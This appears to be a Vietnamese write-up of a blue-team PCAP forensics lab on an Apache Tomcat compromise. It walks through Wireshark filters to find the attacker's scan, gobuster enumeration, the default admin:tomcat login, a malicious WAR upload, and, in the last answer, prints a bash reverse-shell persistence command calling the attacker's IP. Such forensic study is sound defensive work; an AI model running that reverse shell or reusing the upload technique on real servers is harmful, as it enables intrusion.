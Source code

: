 ```yaml
---
title: TomcatTakeover Lab
sidebar_position: 4
---
```


Ehe, nay tôi và cậu ấy làm bài lab nhỏ để không bị nhồi lý thuyết quá nhìu :3 sẵn tiện ôn lại Threat Intel skill lun nha. Bài [Tomcat Takeover](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/) này ở mức dễ và cũng có hướng dẫn rồi nha, mọi người nên xem qua hướng dẫn để có nhiều thông tin và chính xác hơn :v. Của tôi và cậu ấy cũng chỉ là ghi lại quá trình làm thôi à...

## Ngữ cảnh

Nhóm SOC đã xác định hoạt động đáng ngờ trên máy chủ web trong mạng nội bộ của công ty. Để hiểu rõ hơn về khai thác, họ đã nắm bắt lưu lượng mạng để phân tích. Tệp PCAP có thể chứa bằng chứng về các hoạt động độc hại dẫn đến sự thỏa hiệp của máy chủ web Apache Tomcat. Nhiệm vụ của bạn là phân tích tệp PCAP để hiểu phạm vi của cuộc tấn công.

## Công cụ sử dụng

- [Wireshark](https://www.wireshark.org/download.html): Đây là công cụ phân tích gói tin mạng miễn phí và mạnh mẽ nhất hiện nay. Wireshark cho phép theo dõi lưu lượng mạng, trích xuất dữ liệu từ file .pcap, lọc, tìm kiếm và phân tích các kết nối, yêu cầu HTTP, thông tin đăng nhập, tải lên tệp độc hại, và nhiều hoạt động khả nghi khác. Trong bài này, Wireshark được dùng để lần theo dấu vết attacker từ lúc quét cổng cho đến khi thiết lập kết nối reverse shell thành công.

## Câu hỏi

### Q1: Hãy xác định địa chỉ IP nguồn đã khởi tạo các yêu cầu này trên máy chủ của chúng ta?

Từ phân tích pcap, hoạt động đáng ngờ cho thấy một loạt yêu cầu qua nhiều cổng, gợi ý hành vi quét.

| Trả lời | 14.0.0.120 |
| ------- | ---------- |

- **Tìm cái gì:** Địa chỉ IP nguồn phát tán gói quét.
- **Tìm ở đâu:** Trong file pcap, sử dụng Wireshark.
- **Tìm thế nào:** Lọc theo địa chỉ IP (ví dụ `ip.src == x.x.x.x`), hoặc dùng Statistics → Endpoints/Conversations để xem host gửi nhiều gói nhất.

### Q2: Bạn có thể xác định thành phố nơi hoạt động của attacker bắt nguồn không?

Dựa trên địa chỉ IP attacker đã xác định,

| Trả lời | China |
| ------- | ----- |

- **Tìm cái gì:** Thành phố (city) trong thông tin WHOIS.
- **Tìm ở đâu:** Công cụ tra cứu WHOIS (whois.com, whois CLI…).
- **Tìm thế nào:** Sao chép IP vào dịch vụ WHOIS, tìm trường “City”.

### Q3: Cổng nào trong số này cung cấp quyền truy cập vào giao diện quản trị web server?

Từ phân tích pcap, nhiều cổng mở đã được phát hiện do quá trình quét.

| Trả lời | 8080 |
| ------- | ---- |

- **Tìm cái gì:** Số cổng HTTP Admin (thường là 8080 trên Tomcat).
- **Tìm ở đâu:** Trong luồng pcap giữa attacker và server.
- **Tìm thế nào:** Lọc theo IP attacker và IP server rồi xem port đích phổ biến nhất, hoặc filter `tcp.port == 8080`.

### Q4: Các công cụ nào bạn xác định được hỗ trợ attacker trong quá trình liệt kê này?

Sau khi phát hiện các cổng mở, attacker đã cố gắng liệt kê và khám phá thư mục trên web server.

| Trả lời | gobuster |
| ------- | -------- |

- **Tìm cái gì:** Tên công cụ liệt kê thư mục (User‑Agent).
- **Tìm ở đâu:** Trong tiêu đề HTTP request (User‑Agent).
- **Tìm thế nào:** Lọc HTTP GET requests, xem trường User‑Agent.

### Q5: Thư mục cụ thể nào liên quan đến admin panel mà attacker phát hiện được?

Tiếp theo nỗ lực liệt kê, attacker gửi nhiều yêu cầu để tìm giao diện quản trị.

| Trả lời | /manager |
| ------- | -------- |

- **Tìm cái gì:** Đường dẫn (path) dẫn tới admin panel (`/manager`, `/admin`…).
- **Tìm ở đâu:** Trong HTTP GET responses.
- **Tìm thế nào:** Filter `http.request.uri contains "admin"` rồi xem mã HTTP 401/200.

### Q6: Từ dữ liệu, bạn có thể xác định cặp username:password chính xác mà attacker đã dùng thành công không?

Khi truy cập vào admin panel, attacker thử brute-force đăng nhập.

| Trả lời | admin:tomcat |
| ------- | ------------ |

- **Tìm cái gì:** Basic Auth credentials (Base64).
- **Tìm ở đâu:** Trong HTTP POST hoặc header Authorization.
- **Tìm thế nào:** Filter `http.request.method == "POST"` hoặc `http.authbasic` → giải mã Base64.

### Q7: Bạn có thể xác định tên tệp độc hại này từ dữ liệu capture không?

Sau khi đăng nhập, attacker đã tải lên một tệp để thiết lập reverse shell.

| Trả lời | JXQOZY.war |
| ------- | ---------- |

- **Tìm cái gì:** Tên file được upload (ví dụ `*.war`).
- **Tìm ở đâu:** Trong HTTP POST tới `/manager/html/upload`.
- **Tìm thế nào:** Filter `http.request.uri contains "/upload"` và xem phần payload chứa tên file.

### Q8: Từ phân tích, bạn có thể xác định lệnh cụ thể mà họ lên lịch chạy để duy trì sự hiện diện không?

Sau khi thiết lập reverse shell thành công, attacker muốn duy trì truy cập.

| Trả lời | /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1' |
| ------- | ------------------------------------------------------ |
|         |                                                        |

- **Tìm cái gì:** Lệnh persistence (cronjob, systemd unit…).
- **Tìm ở đâu:** Trong nội dung reverse shell (Follow TCP Stream).
- **Tìm thế nào:** Sử dụng Follow TCP Stream trên phiên shell, tìm lệnh `crontab`, `echo "* * * * * ..."` hoặc tương tự.
